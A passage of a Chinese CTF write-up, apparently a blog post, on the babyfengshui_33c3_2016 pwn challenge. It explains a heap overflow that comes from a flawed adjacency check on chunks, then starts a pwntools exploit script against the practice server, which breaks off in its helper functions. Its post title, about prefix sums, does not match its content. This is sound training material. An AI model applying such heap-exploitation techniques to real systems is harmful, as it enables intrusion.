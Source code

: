 ```yaml
---
layout: post
title: 前缀和与差分
subheading: buuoj刷刷题(pwn)
author: xyccq
categories: pwn
tags: pwn
---
```




## babyfengshui_33c3_2016

![image-20210826171715164](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210826171715164.png)

漏洞所在处，判断是否越界，用description的起始地址加上输入的长度，如果判断大于name起始地址-4（去掉size段）。即溢出。

![](https://github.com/xyccq/xyccq.github.io/blob/main/assets/images/typora-user-images/image-20201013223949677.png)

![image-20210826172406015](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210826172406015.png)

存储形式，红框为description的chunk，其余为name的chunk。蓝框为description的起始地址，随后才是name的内容。

正常情况下这样的判断溢出的方式没有问题，但是如果add时，令description从bin中申请，而name则申请新的空间，那么description和name的chunk就不再相邻，而他们之间的部分都可以进行溢出。

exp:

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
p = process('./baby')
p = remote('node4.buuoj.cn', 25530)
elf = ELF('./baby')
#libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
free_got = elf.got['free']
def add(size, name, text_length, text):
	p.recvuntil('Action: ')
	p.sendline('0')
	p.recvuntil('size of description: ')
	p.sendline(size)
	p.recvuntil('name: ')
	p.sendline(name)
	p.recvuntil('text length: ')
	p.sendline(text_length)
	p.recvuntil('text: ')
	p.sendline(text)
	
	
def delete(index):
	p.recvuntil('Action: ')
	p.sendline('1')
	p.recvuntil('index: ')
	p.sendline(index)
	
def show(index):
	p.recvuntil('Action: ')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(index)

def edit(index, text_length, text):
	p.recvuntil('Action: ')
```